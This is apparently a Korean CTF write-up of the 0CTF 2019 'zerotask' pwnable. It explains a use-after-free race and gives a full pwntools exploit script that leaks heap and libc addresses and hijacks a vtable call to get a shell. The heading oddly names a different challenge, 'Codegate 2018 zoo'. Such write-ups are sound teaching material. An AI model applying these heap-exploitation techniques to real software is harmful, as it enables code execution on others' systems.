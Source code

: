 ```yaml
---
layout:     post
title:      "0CTF 2019 zerotask write-up"
subtitle:   "0ctf 2019 pwnable"
date:       2019-08-07
author:     "NextLine"
header-img: "img/post-bg-1.png"
tags:
    - WriteUp
---
```


# Codegate 2018 prequals zoo write-up

### 1. Intro

대회때 빨리 풀어서 퍼블먹었던 문제이다. UAF 나는것만 찾으면 익스는 금방 할 수 있다.


### 2. Binary

```
1. Add task
2. Delete task
3. Go
Choice: 
```

1 : `EVP_CIPHER_CTX_new`와 `EVP_EncryptInit`를 호출하고 데이터를 저장한다.
2 : 1에서 만든 청크를 free한다.
3 : 1에서 만든 청크의 데이터를 encrypt/decrypt해서 보여준다.


### 3. Vulnerability

```c
void __fastcall __noreturn start_routine(Chunk *a1)
{
  int v1; // [rsp+14h] [rbp-2Ch]
  Chunk *_v2[2]; // [rsp+18h] [rbp-28h]
  __int64 v3; // [rsp+28h] [rbp-18h]
  __int64 v4; // [rsp+30h] [rbp-10h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]
  v5 = __readfsqword(0x28u);
  *_v2 = a1;
  v1 = 0;
  v3 = 0LL;
  v4 = 0LL;
  puts("Prepare...");
  sleep(2u);
  memset(text, 0, 0x1010uLL);
  if ( !EVP_CipherUpdate(_v2[0]->EVP_CIPHER_CTX, text, &v1, _v2[0]->data, _v2[0]->size) )
    pthread_exit(0LL);
  _v2[1] = (_v2[1] + v1);
  if ( !EVP_CipherFinal_ex(_v2[0]->EVP_CIPHER_CTX, text + _v2[1], &v1) )
    pthread_exit(0LL);
  _v2[1] = (_v2[1] + v1);
  puts("Ciphertext: ");
  print_text(stdout, text, _v2[1], 0x10uLL, 1uLL);
  pthread_exit(0LL);
}
```

3번 메뉴에서 쓰레드를 생성할 때 `EVP_CipherUpdate`를 하기전에 `sleep`으로 2초간 기다린다. 이때 청크를 삭제하면 use-after-free 취약점이 발생한다.


### 4. Exploit

1. 쓰레드에서 입력을 기다리고 있는 상태로 값을 쓰게되면 chunk를 부분적으로 overwrite할 수 있는데, 그걸 이용해서 heap주소를 leak할 수 있다.
2. heap 주소를 leak한 다음에는 전체 구조체를 덮어서 libc주소를 얻는다.
3. 마지막으로 `EVP_CIPHER_CTX` 포인터를 덮어서 `EVP_CipherUpdate`내부에서 사용하는 vtable call을 이용해 rip를 컨트롤 하면 된다.

```python
#from ntpwn import *
from pwn import *
from Crypto.Cipher import AES
KEY = 'B' * 0x20
IV = 'A' * 0x10
def decrypt(chunk):
    dec = AES.new(KEY, AES.MODE_CBC, IV)
    return dec.decrypt(chunk)
LOCAL = 0
def conn():
    if LOCAL:
        s = process('./task')
        #b = NT(s)
        #b.end()
    else:
        s = remote('111.186.63.201',10001)
    return s
s = conn()
sla = s.sendlineafter
sa = s.sendafter
def addtask(_id,endn,key,iv,datasize, data):
    sla(': ','1')
    sla(': ',str(_id))
    sla(': ',str(endn))
    sa(': ',str(key))
    sa(': ',str(iv))
    sla(': ',str(datasize))
    sa(': ',str(data))
def addtask2(_id,endn,key,iv,datasize):
    sla(': ','1')
    sla(': ',str(_id))
    sla(': ',str(endn))
    sa(': ',str(key))
    sa(': ',str(iv))
    sla(': ',str(datasize))
def addtask3(_id,endn,key,iv,datasize,data):
    sla(': ','1')
    sla(': ',str(_id))
    sla(': ',str(endn))
    sa(': ',str(key))
    sa(': ',str(iv))
    sla(': ',str(datasize))
    sa(': ',str(data))
def addtask4(_id,endn,key,iv,datasize,data):
    s.sendline('1')
    sla(': ',str(_id))
    sla(': ',str(endn))
    sa(': ',str(key))
    sa(': ',str(iv))
    sla(': ',str(datasize))
    sa(': ',str(data))
def dele(_id):
    sla(': ','2')
    sla(': ',str(_id))
def go(_id):
    sla(': ','3')
    sla(': ',str(_id))
lc = ELF('libcrypto.so.1.0.0')
# leak heap
addtask(1,1 , KEY, IV, 0x50, 'B' * 0x50)
addtask(2,1 , KEY, IV, 0x50, 'B' * 0x50)
go(1)
dele(2)
dele(1)
addtask2(1,1 , KEY, IV, 0x50)
s.recvuntil('Ciphertext:')
buf = ''
for i in range(7):
    buf += s.recvline()
buf = [chr(int(i,16)) for i in buf.split()]
heap = u64(decrypt("".join(buf))[:8])
s.info("heap @ " + hex(heap))
s.send('A' * 0x50)
#pause()
# leak libc
addtask(3,1 , KEY, IV, 0x8, 'B' * 0x8)
addtask(4,1 , KEY, IV, 0x8, 'B' * 0x8)
addtask(5,1 , KEY, IV, 0x8, 'C' * 0x8)
go(3)
dele(3)
dele(4)
data = p64(heap - 0x460)
data += p64(8)
data += p32(1)
data += KEY + IV
data += '\x00' * 0x14
data += p64(heap + 0x480)
data += p64(5)
data += p64(0)
addtask3(4,1 , KEY, IV, 0x70, data)
s.recvuntil('Ciphertext:')
for i in range(2):
    buf = s.recvline()
pause()
buf = [chr(int(i,16)) for i in buf.split()]
libc = u64(decrypt("".join(buf))[:8]) - 0x225620 - 0x200000 - 0x3f1000
s.info("libc @ " + hex(libc))
oneshot = libc + 0x10a38c
fake = 'A' * 0x10
fake += p64(heap + 0x808)
fake += p64(0) + "\x01\x00\x11\x00\x00\x00\x00\x00"
fake += p64(oneshot)
addtask4(7,1 , KEY, IV, len(fake), fake)
addtask(8,1 , KEY, IV, 0x8, 'B' * 0x8)
go(7)
dele(7)
dele(8)
data = p64(heap - 0x460)
data += p64(8)
data += p32(1)
data += KEY + IV
data += '\x00' * 0x14
data += p64(heap + 0x810)
data += p64(5)
addtask3(8,1, KEY, IV, 0x70, data)
s.interactive()
# flag{pl4y_w1th_u4F_ev3ryDay_63a9d2a26f275685665dc02b886b530e}
```
